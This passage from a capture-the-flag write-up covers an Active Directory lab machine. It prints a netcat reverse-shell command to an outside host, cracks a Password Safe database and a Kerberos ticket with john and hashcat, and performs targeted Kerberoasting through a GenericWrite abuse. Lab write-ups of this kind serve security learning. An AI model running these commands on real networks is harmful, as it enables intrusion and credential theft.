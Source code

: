 Let’s run `Invoke-RunasCs.ps1` to get a shell as Benjamin, because Benjamin is not in `Remote Management Users` or `Remote Desktop Users` group.

```powershell
Invoke-RunasCs -Username benjamin -Password 'newP@ssword2023' -Command "C:\tools\nc64.exe -e cmd.exe 10.10.14.19 4444"
```

But we are not allowed to do that.

I remember we had FTP share, and we are in Share Operators group, I connected to FTP using benjamin user and get a file called `Backup.psafe3` this is Password Safe V3 Database, encrypted database that stores credentials, I am gonna extract hash from this file and try to crack it using john.

```bash
pwsafe2john Backup.psafe3 > backup.hash
```

```bash
john backup.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

Cracked master key - `tekieromucho`

To open Password Safe file I am gonna use `pwsafe` software:

```bash
sudo apt update
sudo apt install passwordsafe
```

![image.png](image%2016.png)

Click `Password` field on the right upper side, and it will copy the password to clipboard.

## Shell as Emily

```bash
evil-winrm -i $IP -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb’
```

I see that user `emily` has `GenericWrite` privileges over `ethan`.

We can perform Targeted Kerberoasting attack against `ethan` user, but I am not sure whether it will be successfull because password can be complex, nevertheless I will try.

```bash
Set-DomainObject  -Identity ethan -SET @{serviceprincipalname='nonexistent/ADMINISTRATOR'}
```

```bash
GetUserSPNs.py -dc-ip $IP administrator.htb/emily -request
```

![image.png](image%2017.png)

I was able to crack the hash:

```bash
hashcat -m 13100 ethan.hash /usr/share/wordlists/rockyou.txt
```
